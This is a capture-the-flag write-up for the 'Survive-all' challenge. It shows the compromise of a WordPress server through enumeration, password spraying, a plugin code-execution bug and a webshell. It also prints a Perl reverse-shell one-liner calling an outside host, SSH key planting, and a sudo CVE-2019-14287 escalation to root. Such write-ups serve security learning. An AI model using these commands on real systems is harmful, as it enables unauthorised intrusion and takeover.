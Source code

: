 # Survive-all (600pts)

## Step 1: Recon
The target domain http://survive-all.santhacklaus.xyz/ is easily identifiable as a Wordpress CMS instance. The `wpscan` tool can therefore be used to perform some recon.
`wpscan` is available as a docker container online, so the following alias will be used for the rest of the report:
```
alias wpscan='docker run -it --rm wpscanteam/wpscan'
```

### User enumeration
Users can be enumerated with the `--enumerate u` switch, and can be bruteforced with the `--enumerated u1-500` to target the first 500 users. The following (shortened) list can be retrieved:
```
admin
gear-brills
tim-corcoran
steve-parker
james-yestin
dbuffy
...
```

### Plugin enumeration
The same we enumerated user, we can also target plugins. By default, some plugins will leak their presence in the generated HTLM source code. But some plugins won't and we need to bruteforce a list of all plugins to see if they are present (equivalent to being installed in the `wp-includes/plugins/` directory).
We use the `--enumerate ap --plugins-detection aggressive --api-token [xxx]` to list these plugins and get something on the vulnerabilities.
The following plugin vulnerability catches our eye:
```
[+] shortcodes-ultimate
 | Location: http://survive-all.santhacklaus.xyz/wp-content/plugins/shortcodes-ultimate/
 | Last Updated: 2019-11-27T08:08:00.000Z
 | Readme: http://survive-all.santhacklaus.xyz/wp-content/plugins/shortcodes-ultimate/readme.txt
 | [!] The version is out of date, the latest version is 5.6.1
 |
 | Detected By: Known Locations (Aggressive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Shortcodes Ultimate <= 5.0.0 - Authenticated Contributor Code Execution
 |     Fixed in: 5.0.1
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/8945
```

But in order to exploit that, we will need a valid user account.

## Step 2: gaining a foothold in the fort
### Wordpress user and passwords
There are some article on the website, but one of them is particularly eye-catching:
**This message is for the users of our partners CuttingEdge.com and FlyingEagle.com (only the emails like** _**j.doe@partner.com**_**).**

Then the article mentions something about users not changing their default password, and quotes the email-validation email, in which an example password is _hidden_. However, since the hiding mechanism is HTML-based, we can retrieve the real password which is `@@November2007@@`. However, it is stated that the month and year are randomly chosen.

### Finding a valid user
Since we have the email naming convention and the default password policy, we can try password spraying. A bruteforcing script is attached that will perform exactly that, and that allowed us to find, among other, the following email/password combination: `s.parker@cuttingedge.com:@@January2018@@`.

### Exploiting our CVE
The WPVulnDB link describes exactly how to exploit the CVE. A contributor user is sufficient, since the only feature used is the post preview one.
By doing so, we are able to drop a webshell on the system and then use a Perl (no Python...) reverse-shell to our VPS:
```
perl -e 'use Socket;$i="myhost.net";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Finally, using `bash -i` we are able to have a tty-like shell on the server, under `www-data`:
```
listening on [any] 4445 ...
46.30.202.221: inverse host lookup failed: Unknown host
connect to [10.64.142.47] from (UNKNOWN) [46.30.202.221] 38440
/bin/sh: 0: can't access tty; job control turned off
$ bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@071eab00eee9:/var/www/html$
```

## Step 3: priv-escing our way to root

### www-data to testaccount
The `www-data` account does not seem to have lots of permissions on the system. By doing some basic recon on SUID binaries, we find this unusual one:
```www-data@071eab00eee9:/var/www/html$ find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/local/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/bin/su
/bin/umount
/bin/mount
/opt/gather_todos_wrapper
```

By reversing it swiftly, we find that it executes with root privileges the following commands:
```
#!/bin/sh
echo "~(*o*)~ Admin tool : gather TODOS users need admins to look at, accross home directories ~(*o*)~"
/bin/grep -Fr "[TODO]" /home/
echo "-- Done --"
```
Let's launch it to see what the numerous users on the server have to say:
```
www-data@071eab00eee9:/var/www/html$ /opt/gather_todos_wrapper
/opt/gather_todos_wrapper
~(*o*)~ Admin tool : gather TODOS users need admins to look at, accross home directories ~(*o*)~
/home/aharmi/notes.txt:[TODO] : Contact admin to enable SSH access
/home/aharmi/notes.txt:[TODO] : Find interesting posts for the website
/home/aharmi/notes.txt:[TODO] : Find contact to buy food for OP-IRINA
/home/aharmi/notes.txt:[TODO] : For admin : some WP plugins not up to date
/home/fprue/notes.txt:[TODO] : test test, can someone read me ?
/home/testaccount/TODO.txt:[TODO] : Security : password cant be identical as login : change or disable account
/home/ubeverley/todo.txt:[TODO] : Open a Signal group to share confidential info
/home/hxantippe/personnalnotes.txt:[TODO] : Write my first post :)
```

The `testaccount` user seems to complain about user having a password equal to their login, and he is right. The password for `testaccount` is `testaccount`, so we can login with this user:
```
www-data@071eab00eee9:/var/www/html$ su testaccount
Password: testaccount
bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
testaccount@071eab00eee9:/var/www/html$
```

### testaccount to testaccount to root
By examining what `testaccount` has to offer, we see that it is possible to add the `staffteam` group to our groups, using `sudo`:
```
testaccount@071eab00eee9:/var/www/html$ sudo -l
User testaccount may run the following commands on 071eab00eee9:
    (BASIC : staffteam) NOPASSWD: ALL

testaccount@071eab00eee9:/var/www/html$ id
uid=1000(testaccount) gid=1006(testaccount) groups=1006(testaccount),1005(survive-all)

testaccount@071eab00eee9:/var/www/html$ sudo -g staffteam bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

testaccount@071eab00eee9:/var/www/html$ id
uid=1000(testaccount) gid=1001(staffteam) groups=1001(staffteam),1005(survive-all),1006(testaccount)
```

We spent a lot of time trying to figure out what the `staffteam` group could offer until we launched the `sudo -l` command again:
```
testaccount@071eab00eee9:/var/www/html$ sudo -l
User testaccount may run the following commands on 071eab00eee9:
    (ALL, !root) ALL
    (ALL) NOPASSWD: /etc/init.d/apache2 restart, /etc/init.d/ssh restart
    (BASIC : staffteam) NOPASSWD: ALL
```

The first line would allow us to launch any command as any user which is not root, but unfortunately this is also the signature of [CVE-2019-14287](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability), which we cannot exploit right away. Indeed, our `bash -i` is not TTY enough to provide a password.
Fortunatley, the `sudo` command allow us to start the SSH server, and we can put our public-key on the server:
```
testaccount@071eab00eee9:~/.ssh$ sudo /etc/init.d/ssh restart
Restarting OpenBSD Secure Shell server: sshd.
testaccount@071eab00eee9:~/.ssh$ echo 'ssh-rsa AAAA[...snip...]fd48as= root@kali-jms' > authorized_keys
```

We can then SSH on the server, and exploit the vulnerability:
```
root @ kali-jms ~/curr/survive [130] # ssh -i id_rsa testaccount@survive-all.santhacklaus.xyz
Linux 071eab00eee9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

testaccount@071eab00eee9:~$ sudo -g staffteam bash
testaccount@071eab00eee9:~$ id
uid=1000(testaccount) gid=1001(staffteam) groups=1001(staffteam),1005(survive-all),1006(testaccount)

testaccount@071eab00eee9:~$ sudo -u#-1 bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password:
root@071eab00eee9:/home/testaccount# cat /root/flag.txt
SANTA{W3ll_d0ne!!You_HAVE_w0n}
```
